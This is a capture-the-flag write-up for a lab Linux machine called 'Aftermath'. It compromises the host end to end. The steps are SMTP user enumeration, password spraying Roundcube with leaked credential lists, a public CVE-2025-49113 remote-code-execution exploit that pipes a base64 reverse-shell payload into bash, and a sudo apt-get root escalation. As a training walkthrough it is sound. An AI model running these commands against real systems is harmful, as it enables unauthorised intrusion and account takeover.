Hello and welcome to Aftermath writeup from Hacksmarter. Aftermath is easy linux machine with objective to gain root access to box.

## Objective
You have been assigned a penetration test against a Linux server in the client's network. Your objective is to gain root access. The client has planted three flags on the system, retrieving each of these flags demonstrates impact.

## Initial Access
Another team member pulled down a list of names and passwords from DeHashed... but are unsure if any of them are valid.

## Enumeration

We have names.txt and passwords.txt files. After downloading each file we can perform port scanning with nmap (or rustscan).

```bash
rustscan -a 10.1.25.34 --ulimit 5000 -- -sCV -oN nmap/aftermath 
```

*nmap scan*

We can see port 22 which is SSH, port 25 which is Simple Mail Transfer Protocol (SMTP) on port 25 and HTTP on port 80. 

Going at http://10.1.25.34/ we don't see any useful information at first glance.


*Web page*

Source code doesn't give us anything useful either so we can perform directory brute-force to discover folders at web server. We can do that by using FFUF.

```bash
ffuf -u http://10.1.25.34/FUZZ -w /opt/seclists/Discovery/Web-Content/raft-small-words.txt -e .php -fs 275
# -u = URL
# -w = wordlist location
# -e = extension
# -fs = filter size of page
```



We can see roundcube is redirecting us somewhere so let's see where it leads.



As expected we can see a Roundcube which is Free and Open Source Webmail Software. Using Burpsuite (or FFUF as well) we can perform a brute-force attack to see if we can log in with files we downloaded earlier.
To do it with Burpsuite:
1. Intercept login request.

2. Press right mouse button and select “send to intruder” (or click CTRL+I)

3. Next change from sniper attack to cluster bomb attack. Then double click on username you entered (admin in my case) and click “Add %” (that weird burp symbol)

4. Load your names.txt file at right of burpsuite window

5. Repeat step 3 with password you entered but this time load passwords.txt file.


At Payloads table you should choose between usernames and passwords. If you did everything as above we can start brute-force attack.

While that's running we can take a look at SMTP port. Using scanner/smtp/smtp_enum metasploit framework module we can enumerate valid usernames.

```bash
msfconsole
msf > use auxiliary/scanner/smtp/smtp_enum
msf auxiliary(scanner/smtp/smtp_enum) > set rhosts 10.1.25.34
msf auxiliary(scanner/smtp/smtp_enum) > set USER_FILE names.txt
msf auxiliary(scanner/smtp/smtp_enum) > run
```



So we can save some time to change from the 499 users to 2 and perform a password spray on roundcube. We can now change from burp to [cubeSpraying](https://github.com/robotshell/cubeSpraying).

```bash
git clone https://github.com/robotshell/cubeSpraying
cd cubeSpraying
python3 cubeSpraying.py --url http://10.1.25.34/roundcube/ --usernames ../valid_users.txt --passwords ../passwords.txt --verbose
```

After some time we see a valid credentials to roundcube



After finally logging in to roundcube we found one mail with flag. 



We can see what version of roundcube is running. Clicking the About section in left bottom of screen we can see Roundcube 1.5.9.



We can search for vulnerabilities. Quick search leads us to Authenticated remote code execution.


## Exploitation
Let's use one from [haikooffsec](https://github.com/hakaioffsec/CVE-2025-49113-exploit) to gain reverse shell. You can get base64 encoded payload to reverse shell from [revshells](https://revshells.com). We have to change our tun0 ip address, port and encoding to base64.



```bash
git clone https://github.com/hakaioffsec/CVE-2025-49113-exploit
cd CVE-2025-49113-exploit
php CVE-2025-49113.php http://10.1.25.34/roundcube maria <PASSWORD> 'echo <ENCODED PAYLOAD> | base64 -d | bash'
```

We have a shell as www-data.
## www-data


We can read user.txt which is in strange location /usr/user.txt


## Privilege escalation
Running linpeas we can see that we can run apt-get as root 



Checking gtfobins we can escalate privileges to root.

```bash
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```



We can read the last flag.



Thanks for reading. That was fun machine. Hope you learn something new everyday just like me

